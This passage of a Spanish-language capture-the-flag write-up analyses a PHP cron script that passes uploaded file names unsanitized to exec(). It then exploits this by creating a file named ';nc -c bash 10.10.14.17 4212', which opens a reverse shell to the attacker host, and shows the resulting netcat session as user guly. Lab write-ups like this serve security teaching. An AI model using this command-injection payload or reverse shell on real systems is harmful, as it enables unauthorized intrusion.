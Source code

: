 ~~~bash
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
~~~
Entendiendo el código, se puede ver que es una especie de controlador de archivos, donde redirecciona todo a la ruta "/var/www/html/uploads", dentro de ese directorio revisa todos los archivos, el formato que deja pasar es el de una ip junto con su extensión (ej: 10_10_10_10.jpg) pero en caso de no tener ese formato entonces pasa ese archivo como una variable "$value", lo borra y envia un mensaje de alerta por mail.
De este codigo resalta una linea que es:
~~~bash
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
~~~
Esto no se encuentra sanitizado, por lo que modificando el valor de "path" o "value" se podria realizar una inyeccion de comandos, pero como "path" es algo definido dentro del codigo y value viene a ser el archivo en formato incorrecto, es facil entender que se debe hacer.
Primero se creara un archivo indicando una reverse shell para que cuando se ejecute el crontab se obtenga conexion con el usuario guly.
~~~bash
bash-4.2$ touch ';nc -c bash 10.10.14.17 4212'
bash-4.2$ ls
10_10_14_17.jpg      127_0_0_1.png  127_0_0_3.png  ;nc -c bash 10.10.14.17 4212
10_10_14_17.php.png  127_0_0_2.png  127_0_0_4.png  index.html
~~~
Generando un escucha desde la maquina atacante.
~~~bash
sudo nc -nlvp 4212                                                           
[sudo] password for kali: 
kali
Sorry, try again.
[sudo] password for kali: 
listening on [any] 4212 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.146] 51140
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
~~~
Con esto se obtuvo exitosamente una sesion con el usuario guly.

---